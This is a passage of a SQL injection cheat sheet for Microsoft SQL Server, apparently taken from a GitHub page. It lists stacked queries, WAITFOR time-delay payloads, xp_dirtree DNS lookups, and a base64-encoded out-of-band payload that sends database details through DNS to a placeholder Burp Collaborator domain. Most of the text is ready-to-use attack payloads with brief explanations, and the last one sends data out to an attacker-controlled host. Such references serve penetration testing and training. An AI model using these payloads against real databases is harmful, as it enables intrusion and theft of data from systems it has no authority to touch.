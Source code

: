 ### Batched (or stacked) queries:
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
```bash
QUERY-1-HERE; QUERY-2-HERE
```

### Time delays: 
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
```bash
WAITFOR DELAY '0:0:10'
```
### Conditional time delays:
You can test a single boolean condition and trigger a time delay if the condition is true.
```bash
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
```
### DNS lookup:
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
```bash
exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
```


### DNS lookup with data exfiltration:
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
```bash
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
```

Due to the domain and subdomain max characters limitations, it becomes challenging to exfiltrate data. A maximum of 63 characters are allowed for each subdomain and in total 253 characters for the full domain name. Fragmentation and encoding are two methods that can be used to overcome these limitations.
(SQLi exfiltration using Out of band technique)[https://infosecwriteups.com/out-of-band-oob-sql-injection-87b7c666548b]

First Part
```bash
DECLARE @d varchar(1024); DECLARE @T varchar(1024);
SELECT @d = (SELECT SUBSTRING(CAST(SERVERPROPERTY('edition') as
varbinary(max)), 1,LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))/2) FOR XML PATH(''), BINARY BASE64);
SELECT @T = (SELECT REPLACE(@d, '=', '')); EXEC('master..xp_dirtree "\\'+@T+'.YourBRUPCOLLAB.net\egg$"');
```
